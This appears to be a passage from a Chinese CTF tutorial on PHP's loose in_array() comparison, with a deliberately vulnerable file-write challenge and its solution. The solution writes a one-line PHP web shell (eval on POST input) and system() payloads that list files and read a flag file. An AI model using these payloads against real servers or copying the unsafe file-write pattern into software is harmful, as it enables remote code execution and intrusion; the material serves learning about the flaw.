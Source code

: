  漏洞例子：

```Plain Text
 $array=[0,1,2,'3'];
  var_dump(in_array('a', $array));            //bool(true)
  var_dump(in_array('1a', $array));            //bool(true)
  var_dump(in_array('1', $array, true));    //bool(false)


```
`可以理解为，当type == false时，使用==进行比较；当type == true时，使用===进行比较。（个人理解，欢迎纠正）`

**列子2**

```Plain Text
<?php 
highlight_file(__FILE__); 
$allow = array(); 
for ($i=36; $i < 0x36d; $i++) {<!-- -->    //877
    array_push($allow, rand(1,$i));    参数很多随机的数字，
} 
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){<!-- -->
//in_array() 函数搜索数组中是否存在指定的值。 
    file_put_contents($_GET['n'], $_POST['content']); 
} 
//file_put_contents — 将一个字符串写入文件(前面是文件名，后面是内容)
?>


```
```Plain Text
构造

$allow = array(1,'2','3');   ==
var_dump(in_array('1.php',$allow));   //bool(true)

$allow = array(1,'2','3');   ===
var_dump(in_array('1.php',$allow,true));   //bool(false)


```
```Plain Text
构造1
in_array延用了php中的==
具体内容可以查看php手册->附录->PHP类型比较表
因为新加进去的随机数字每次都包含1，1存在的几率是最大的。
所以直接写 n=1.php post:content=<?php eval($_POST[1]);?>多试几次即可
写一句话木马然后直接菜刀链接


```
```Plain Text
方式2：在in_array()中n=1.php就会转化成n=1，此外通过file_put_contents()创建一个文件写入php代码
?n=666.php
content=<?php system("ls");?> 
访问666.php即可

content=<?php system("tac flag36d.php");?>


```
# 7.is\_numeric()函数
如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE，注意浮点型返回空值，即 FALSE。

